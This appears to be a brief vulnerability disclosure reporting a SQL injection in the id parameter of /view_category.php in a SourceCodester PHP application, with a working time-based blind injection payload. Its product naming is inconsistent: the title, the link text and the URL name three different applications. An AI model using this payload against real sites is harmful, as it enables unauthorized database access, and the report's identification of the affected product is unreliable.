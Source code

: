 # SQL injection vulnerability exists in the online drug ordering system

## Vulnerability author:liuyuanyuan

supplier:
[https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code](https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html)

edition: 
1.0

/view_category.php

The Id parameter has SQL injection. Procedure

Payload: page=categories/view_category&id=2' AND (SELECT 5406 FROM (SELECT(SLEEP(5)))bFht) AND 'Ygpf'='Ygpf

![image](https://github.com/user-attachments/assets/b3d351d3-c8f1-4516-aa07-c582759a5c6d)

![image](https://github.com/user-attachments/assets/01fb7d8d-e2c5-4914-815e-06d97a388fb1)

